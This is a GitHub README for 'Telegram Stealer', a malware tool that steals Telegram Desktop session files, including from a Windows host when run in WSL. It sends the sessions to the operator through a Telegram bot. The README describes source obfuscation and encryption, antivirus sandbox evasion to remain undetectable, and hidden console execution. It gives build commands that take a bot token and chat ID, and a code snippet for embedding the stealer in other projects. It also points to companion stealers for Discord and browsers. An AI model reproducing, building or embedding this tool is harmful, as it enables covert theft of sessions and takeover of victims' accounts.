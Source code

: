 # Telegram Stealer

Steal Telegram Desktop sessions.

**Check [Waifu Stealer](https://github.com/rigwild/waifu-stealer) (Stealer builder: Discord, Telegram, Browsers, ...)**

If the stealer is started inside WSL, it will get the Telegram Desktop sessions from its Windows host.

**Note:** If the target configured a local password in Telegram Desktop, the sessions will be encrypted, so you would need the password to unlock it.

## Demo

https://youtu.be/3mKOwtCnwYw

## Features

- Steal Telegram Desktop sessions
- Works on all platforms, including WSL (on WSL, the binary will get the sessions from its Windows host)
- If Telegram Desktop is not in appData (i.e. portable installation), inspect the `Telegram.exe` running process to find its path (Windows or WSL only)
- Source is highly obfuscated using [javascript-obfuscator](https://github.com/javascript-obfuscator/javascript-obfuscator) and encrypted with `AES-256-GCM`
- Output binary is packaged to a single portable binary using [pkg](https://github.com/vercel/pkg)
- Send sessions via Telegram using webhooks
- Try to detect some anti-virus virtual machines to be FUD as long as possible

## Build

Install dependencies

```sh
npm i -D
npm i -g pkg
```

Build

```sh
npm run build <chat_id> <bot_token>

# Create the stealer binary, choose target system and architecture
npm run pkg-windows
npm run pkg-linux
npm run pkg-linux-arm
npm run pkg-macos
npm run pkg-macos-arm
```

## Run

Run the `hello` binary.

To hide the console window on a Windows machine, you can run the script using the provided VB script (see [`run_hidden_windows.vbs`](./run_hidden_windows.vbs)).

## Include in your project

```sh
npm install https://github.com/rigwild/telegram-stealer.git
```

```ts
import { run as stealTelegram } from 'telegram-stealer'

type StealTelegram = ({
  telegramChatId: string,
  telegramToken: string,
  archivePassword?: string
}) => Promise<void>

await stealTelegram({
  telegramChatId: '1234567890',
  telegramToken: '12345678:EEExreg_CKLviTXNwTTfc-UdcStDOPfqFoMQ',
  archivePassword: 'rigwild/telegram-stealer'
})
```

## Related projects

- [Waifu Stealer](https://github.com/rigwild/waifu-stealer) - Stealer builder (Browsers, Discord, Telegram, ...)
- [Discord Stealer](https://github.com/rigwild/discord-stealer) - Steal Discord tokens from clients and browsers

## License

[The MIT license](./LICENSE)
